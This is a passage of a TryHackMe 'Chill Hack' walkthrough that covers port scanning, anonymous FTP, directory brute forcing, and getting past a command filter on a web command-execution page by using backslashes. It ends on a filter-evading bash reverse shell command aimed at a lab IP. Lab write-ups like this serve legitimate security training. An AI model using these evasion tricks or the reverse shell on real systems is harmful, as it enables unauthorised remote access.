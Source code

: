# TryHackMe - Chill Hack Room
<img width="551" alt="image" src="https://user-images.githubusercontent.com/114961392/210290991-812658d1-ebe3-4732-8137-bb465e0eab7c.png">

## Reconnaissance
Let's start by scanning all ports with nmap then run a version and script scan for all open ports.  

<img width="494" alt="image" src="https://user-images.githubusercontent.com/114961392/210291196-1070d4d7-0ddd-4b33-995e-20519771c1f9.png">

Ports 21 (FTP), 22 (SSH), and 80 (HTTP) are open. Port 21 (FTP) allows anonymous login which I will check out.  
The webpage is a gaming information site which looks pretty good however there is nothing too interesting to play with.  

<img width="740" alt="image" src="https://user-images.githubusercontent.com/114961392/210291496-46597055-060f-45f3-9321-fde604000749.png">

Let's check out FTP by logging in anonymously.  
There is only 1 file in there called note.txt which I will grab. This just says that there is filtering on strings being put in the command. I am assuming this will be a clue once I have done all recon.  
There are also 2 names (Anurodh and Apaar) which I will note down for later.  

<img width="830" alt="image" src="https://user-images.githubusercontent.com/114961392/210292050-b6978420-db7d-4ecb-8663-060b935ae6d0.png">

Now let's brute force for any hidden directories.  

<img width="484" alt="image" src="https://user-images.githubusercontent.com/114961392/210292520-d3abaaef-62d7-4bde-90de-9c2675fd04df.png">

This reveals that there is a hidden directory called **/secret**. When I navigate to the directory, I am presented with a basic page which let's you execute commands. Looking back on the note I discovered in FTP, I am assuming that they were referencing this page and there will be a filter on these commands. Let's have a look.  

<img width="170" alt="image" src="https://user-images.githubusercontent.com/114961392/210293055-4ad2dfba-00f9-4474-bc61-2bc460110333.png">

When I try to enter the simple command **ls**, it fails and text comes up asking if I am a hacker. Looks like there is definitely some filtering going on here.  

<img width="978" alt="image" src="https://user-images.githubusercontent.com/114961392/210293680-0e35a016-703b-461e-bc7e-a4fbd3b5d3ad.png">

However the **id** command works.  

<img width="422" alt="image" src="https://user-images.githubusercontent.com/114961392/210293893-0d129b6e-a29c-44ce-83ee-d5570636a811.png">

After doing some research on google for bypassing filters, there is some useful information on [hacktricks](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions) which I will use.  
I found that the best technique to bypass is to enter a backslash after the first letter in the command followed by the rest of the command. Such as **l\s -la**.  

<img width="1263" alt="image" src="https://user-images.githubusercontent.com/114961392/210294407-4d20ee4a-ad7c-4344-b956-66ae26deebb0.png">

## Exploitation
Now that I can bypass the filter, let's try executing a reverse shell. I will use command **b\ash -c "bash -i >& /dev/tcp/10.4.2.215/4444 0>&1"**. Remember that I need to enter a backslash after the first letter of the command.  
